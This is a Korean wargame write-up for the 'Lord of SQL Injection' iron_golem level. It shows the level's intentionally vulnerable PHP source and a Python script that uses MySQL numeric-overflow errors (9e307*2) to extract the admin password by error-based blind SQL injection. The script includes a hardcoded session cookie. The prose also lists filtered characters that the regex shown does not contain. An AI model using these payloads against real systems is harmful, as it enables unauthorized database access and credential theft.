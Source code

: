 # Lord of SQL Injection No.21 - iron_golem

## 문제 출제 의도

Error Based SQL Injection을 할 수 있는지 확인한다.

## 소스 코드 분석

iron_golem 문제의 php 소스 코드는 다음과 같다.
```php
<?php
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/sleep|benchmark/i', $_GET[pw])) exit("HeHe");
  $query = "select id from prob_iron_golem where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(mysql_error()) exit(mysql_error());
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  
  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_iron_golem where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("iron_golem");
  highlight_file(__FILE__);
?>
```
-----

```php
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/sleep|benchmark/i', $_GET[pw])) exit("HeHe");
```
* GET방식으로 pw를 받고, pw에 `prob`, `_`, `.`, `()`, `#`, `-` 가 들어 있으면 `No Hack ~_~`이 뜨고 문제 풀이에 실패한다.

* 또한, pw에 `sleep`, `benchmark` 가 들어 있으면 `HeHe`가 뜨고 문제 풀이에 실패한다.

```php
  $query = "select id from prob_iron_golem where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(mysql_error()) exit(mysql_error());
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  
  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_iron_golem where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("iron_golem");
```
* 받은 pw가 직접 쿼리에 들어간다. 이것으로 SQL Injection 공격이 가능하다는 것을 알 수 있다.

* MySQL 쿼리 수행에 오류가 있으면 오류를 출력하고 문제 풀이에 실패한다. 이것으로 Error Based SQL Injection 공격이 가능하다는 것을 알 수 있다.

* 문제 풀이가 성공하는 조건은 '데이터베이스에서 받은 pw와 GET방식으로 전달받은 pw가 같음'이다. 즉, 실제 데이터베이스에 저장된 pw를 알아내서 전달해야 한다.

## MySQL 지수 연산 최대치

MySQL에서는 e를 이용한 지수 연산이 가능하다.

예를 들어, 9e0은 9와 같고, 9e1은 90과 같다.

이때, 9의 지수 연산의 최대치는 9e307이다. 9e308부터는 ERROR 1367 (22007): Illegal double '9e308' value found during parsing 와 같이 에러가 난다.

또한, 연산을 통해 최대치를 초과할 때에도 ERROR 1690 (22003): DOUBLE value is out of range in '(9e307 * 9e307)' 와 같이 에러가 난다.

-----

## Solution
    
1. MySQL 지수 연산 최대치, IF문 이용

    이 문제는 Blind SQL Injection과 Error Based SQL Injection을 결합해서 풀 수 있다.
    
    에러가 발생하면 에러를 출력하므로 이를 이용하는 코드를 작성한다.

    ```python
    import urllib.request
    from urllib.parse import quote

    key = ""

    pwlen = 0

    for i in range(1, 20):
        url = "http://los.eagle-jump.org/iron_golem_d54668ae66cb6f43e92468775b1d1e38.php?pw="
        data = "' or id='admin' and if((length(pw)='{}'),9e307*2,0)#".format(str(i))
        print(data)
        data = quote(data)
        re = urllib.request.Request(url + data)

        re.add_header(
            "User-agent", "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36")
        re.add_header(
            "Cookie", "PHPSESSID=jtkacptqj14heqvtcuofma30m2"
        )

        req = urllib.request.urlopen(re)

        if str(req.read()).find("DOUBLE value is out of range") != -1:
            pwlen = i
            print('pw length : ' + str(pwlen))
            break

    for i in range(1, pwlen + 1):
        for j in range(32, 127):
            url = "http://los.eagle-jump.org/iron_golem_d54668ae66cb6f43e92468775b1d1e38.php?pw="
            data = "' or id='admin' and if((substr(pw, 1, {})='{}'),9e307*2,0)#".format(
                str(i), key + chr(j))
            print(data)
            data = quote(data)
            re = urllib.request.Request(url + data)

            re.add_header(
                "User-agent", "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36")
            re.add_header(
                "Cookie", "PHPSESSID=jtkacptqj14heqvtcuofma30m2"
            )

            req = urllib.request.urlopen(re)

            if str(req.read()).find("DOUBLE value is out of range") != -1:
                key += chr(j).lower()
                print(key)
                break
    print(key)
    ```

    이러한 코드를 실행하면 결과값으로 !!!! 를 출력한다.
    이를 GET방식으로 pw의 값으로 전달하면 풀린다.
    
    ```
    http://los.eagle-jump.org/iron_golem_d54668ae66cb6f43e92468775b1d1e38.php?pw=!!!!
    ```